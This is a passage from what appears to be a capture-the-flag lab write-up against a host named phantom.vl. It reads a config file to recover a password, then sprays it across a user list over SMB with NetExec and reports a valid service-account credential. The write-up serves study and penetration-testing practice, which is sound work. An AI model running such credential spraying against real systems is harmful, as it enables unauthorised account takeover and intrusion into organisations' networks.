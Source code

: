 > Now as we see we got the password: Phantom2023!
> 

Now let’s see the new password

```bash
cat config/config.boot
```

![image.png](../images/phantom%2019.png)

Now let’s go and spray with the password

```bash
nxc smb phantom.vl -u users.txt -p 'gB6XTcqVP5MlP7Rc' --continue-on-success
```

![image.png](../images/phantom%2020.png)

> Notice that we got a new hit
username: svc_sspr
password: gB6XTcqVP5MlP7Rc
> 
